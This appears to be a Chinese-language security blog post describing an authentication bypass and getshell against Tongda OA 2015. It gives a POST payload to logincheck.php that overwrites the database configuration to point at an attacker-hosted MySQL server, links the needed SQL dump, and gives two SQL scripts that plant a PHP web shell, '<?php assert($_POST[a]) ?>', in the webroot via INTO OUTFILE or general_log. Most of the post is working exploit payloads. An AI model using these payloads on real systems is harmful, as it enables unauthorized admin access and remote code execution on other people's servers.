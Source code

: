 ```yaml
---
title: "通达 OA 变量覆盖及 getshell"
date: 2018-08-06T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['php']
categories: ['CMS']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



版本 2015, 乌云平台上的漏洞, 正好最近实战也用到了

<!--more-->

# 变量覆盖

`/logincheck.php`

post 数据

`USERNAME=admin&PASSWORD=&MYOA_MASTER_DB[id]=1&MYOA_MASTER_DB[host]=MYSQL_HOST&MYOA_MASTER_DB[user]=MYSQL_USER&MYOA_MASTER_DB[pwd]=MYSQL_PASSWORD&MYOA_MASTER_DB[db]=MYSQL_DATABASE`

mysql 数据库需要自己部署

[TD_OA.sql](http://exp10it-1252109039.cossh.myqcloud.com/2018/08/06/1533560380.sql)

# getshell

后台有 sql 导入功能, 有两种方法, 使用 `into outfile` 或者用 `general_log`

```
update mysql.user set file_priv='Y' where user='root';
flush privileges;
select concat("'",0x3C3F7068702061737365727428245F504F53545B615D29203F3E) into outfile '../webroot/test.php';
update mysql.user set file_priv='N' where user='root';
flush privileges;
```

```
set global general_log = on;
set global general_log_file = '../webroot/test.php';
select '<?php assert($_POST[a]) ?>';
set global general_log = off;
```

保存为 sql 文件然后上传即可